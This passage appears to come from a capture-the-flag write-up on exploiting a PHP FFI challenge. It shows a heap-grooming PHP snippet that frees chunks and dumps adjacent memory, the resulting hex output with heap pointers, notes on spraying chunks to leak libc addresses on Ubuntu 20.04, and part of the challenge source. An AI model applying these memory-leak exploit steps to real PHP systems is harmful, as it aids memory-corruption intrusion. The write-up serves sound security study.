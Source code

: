 ```php  
   );  
   ...  
   for ($i = 0; $i < 4; $i++) {  
       $x[$i][0] = 0x333333333333; // recognizeable pattern  
       $x[$i][1] = 0x333333333333;  
       $x[$i][2] = 0x333333333333;  
   }  
  
   releasestr($x[1]);  
   releasestr($x[2]);  
  
   read($x[0], 299);  
   echo "START\n";  
   for ($i = 0; $i < 300; $i++) {  
       echo $buf2[$i] . "\n";  
   }  
   echo "END\n";  
```  
The output,  
```  
000 0x0000333333333333 0x0000333333333333 // x[0]  
010 0x0000333333333333 0x00000000000000F1  
020 0x00005570AB328520 0x00005570AB2F9010  
...  
550 0x0000000000656761 0x0000000000000021 // x[1]  
560 0x0000000000000000 0x00005570AB2F9010  
570 0x0000333333333333 0x00000000000000D1  
...  
6D0 0x0000007265707075 0x0000000000000021 // x[2]  
6E0 0x00005570AB32B990 0x00005570AB2F9010  
6F0 0x0000333333333333 0x00000000000000D1  
```  
and for getting libc leak, I just sprayed some huge-ish chunks and freed them.
Just hope that some of the libc leaks remains near our controlled chunks. To
find them just find a leak starting with 0x7F and ends with ...BE0 (Ubuntu
20.04, libc 2.31)  
```php  
<?php
function pstr2ffi(string $str){
    $len=intval((strlen($str)+7)/8);
    if($len>600) die("oom");
    $obj=FFI::new("unsigned long long[".strval($len)."]",false,true);
    FFI::memcpy($obj,$str,$len*8);
    return $obj;
}
function creatbuf($size){
	$size=intval($size);
	if($size<=0) die("oom");
    if($size>4800) die("oom");
    $len=intval(($size+7)/8);
    return FFI::new("unsigned long long[".strval($len)."]",false,true);
}
function releasestr($str){
    FFI::free($str);
}
function getstr($x,$len){
    return FFI::string($x,$len);
}
function encrypt_impl($in,$blks,$key,$out){
if($blks>300) die("too many data");
    FFI::scope("crypt")->encrypt($in,$blks,$key,$out);
}
function decrypt_impl($in,$blks,$key,$out){
if($blks>300) die("too many data");
```

[1]: https://www.php.net/manual/en/ffi.new.php  